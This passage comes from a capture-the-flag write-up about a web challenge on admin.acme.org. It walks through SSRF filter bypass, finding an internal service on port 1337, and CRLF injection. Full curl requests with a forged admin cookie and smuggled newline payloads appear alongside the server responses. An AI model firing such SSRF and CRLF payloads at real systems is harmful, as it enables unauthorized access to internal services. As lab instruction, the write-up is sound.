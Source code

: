```
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 17:23:46 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
 
{"data":"<base64 removed due to length>"}
```

## ⌨️ Part four: carriage return, line feed

Given that the Acme server prevented the use of various characters used in SSRF payloads, such as the fragment identifier (`#`) and query-string marker (`?`), leveraging an external domain seemed like an ideal solution for reading the flag. Having no such look, I decided to examine the `localhost` (127.0.0.1) context in greater depth.

Orange Tsai's excellent talk on [exploiting URL parsers](https://media.defcon.org/DEF%20CON%2025/DEF%20CON%2025%20presentations/DEFCON-25-Orange-Tsai-A-New-Era-of-SSRF-Exploiting-URL-Parser-in-Trending-Programming-Languages.pdf) inspired me to experiment with some more esoteric SSRF payloads, chaining them with CRLF injection techniques in various unsuccessful attempts to bypass the Acme filter.

After several hours, I started to consider whether the flag was being served from an alternate port on the Acme server, so introduced a `localhost:<port>` string and tested a variety of likely ports. Thinking back to the nature of the challenge, I came across a web server on port `1337` &mdash; this was it. It felt like the flag was coming within reach. 

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"domain\":\"localhost:1337@212.google.com\"}' $'http://admin.acme.org/index.php/'
```

```
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 17:35:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 43
Content-Type: text/html; charset=UTF-8

{"data":"SG1tLCB3aGVyZSB3b3VsZCBpdCBiZT8K"}
```

When decoded, the above Base64 string reads: `Hmm, where would it be?`.

## 🏁 Part five: capturing the flag

Some interesting behaviour surfaced whilst refining my search for the flag: the following request increments the `id` counter by a count of three:

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"domain\":\"localhost:1337/flag\\n\\n\\r\\r212.google.com\"}' $'http://admin.acme.org/index.php/'
```
Checking the preceding `id` values led me to notice that *subtracting two* from the returned ID would return Base64-encoded data, rather than a blank key-value pair. For instance, if the above request returned an `id` of 105, the Base64 would be returned in `id` 103. Upon checking the resultant ID value, the following Base64 response was returned:

